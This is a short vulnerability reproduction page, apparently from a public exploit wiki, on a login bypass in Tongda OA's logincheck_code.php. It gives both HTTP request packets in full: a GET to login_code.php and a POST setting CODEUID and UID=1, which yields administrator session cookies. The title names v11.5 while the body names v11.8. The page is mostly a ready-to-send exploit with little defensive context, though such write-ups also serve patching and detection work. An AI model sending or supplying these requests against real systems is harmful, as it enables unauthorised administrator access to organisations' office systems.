# Tongda OA v11.5 logincheck_code.php login bypass vulnerability

## Vulnerability Description

Tongda OA v11.8 logincheck_code.php has a login bypass vulnerability, and an attacker can log in to the system administrator background through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.8</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

Send the first request packet

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

Send a second malicious request

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

After obtaining cookies, visit the administrator page `/general/index.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)